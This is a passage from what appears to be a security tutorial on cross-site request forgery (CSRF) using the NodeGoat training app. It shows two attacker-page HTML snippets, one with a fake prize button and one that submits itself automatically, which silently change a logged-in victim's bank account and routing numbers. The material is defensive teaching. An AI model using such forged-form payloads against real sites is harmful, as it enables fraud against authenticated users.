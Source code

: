              name="bankAcc"
             value="{{bankAcc}}"
             placeholder="Enter bank account number">
       </div>
       <div class="form-group">
          <label for="bankRouting">Bank Routing #</label>
          <input
             type="text"
             id="bankRouting"
             name="bankRouting"
             value="{{bankRouting}}"
             placeholder="Enter bank routing number">
          <p class="help-block">
             Must be entered as digits with a suffix of #. For example: 0198212# </p>
       </div>
       <div class="form-group">
          <label for="address">Address</label>
          <input
             type="text"
             id="address"
             name="address"
             value="{{address}}"
             placeholder="Enter address">
       </div>
       <input type="hidden" name="_csrf" value="{{csrftoken}}" />
       <button type="submit" class="btn btn-default" name="submit">Submit</button>
    </form>

The attack code below can be found at the NodeGoat [tutorial for CSRF](https://nodegoat.herokuapp.com/tutorial/a8), along with the complete example that ckarande crafted, as well as an accompanying tutorial video of how the attack plays out:

{title="Snippet from attackers website", linenos=off, lang=html, linenos=on}
    <html lang="en">
    <head></head>
       <body>
          <form method="POST" action="http://TARGET_APP_URL_HERE/profile">
             <h1> You are about to win a brand new iPhone!</h1>
             <h2> Click on the win button to claim it...</h2>
             <!--User is authenticated, let's force them to change some values-->
             <input type="hidden" name="bankAcc" value="9999999"/>
             <input type="hidden" name="bankRouting" value="88888888"/>
                                <input type="submit" value="Win !!!"/>
          </form>
       </body>
    </html>

**For No. 2 above**, it is similar to No. 1, but the target does not have to take any action once the fraudulent web page is loaded. The script block submits the form automatically, thus making the request to the website that the target is already authenticated with. The browser again plays it's part in sending the Session Id stored in the cookie:

{title="Snippet from attackers website", linenos=off, lang=html}
    <form id="theForm" action="http://TARGET_APP_URL_HERE/profile" method="post">
       <input type="hidden" name="bankAcc" value="9999999"/>
       <input type="hidden" name="bankRouting" value="88888888"/>
                                <input type="submit" value="Win !!!"/>
    </form>
    <script type="text/javascript">
       document.getElementById('theForm').submit();
    </script>

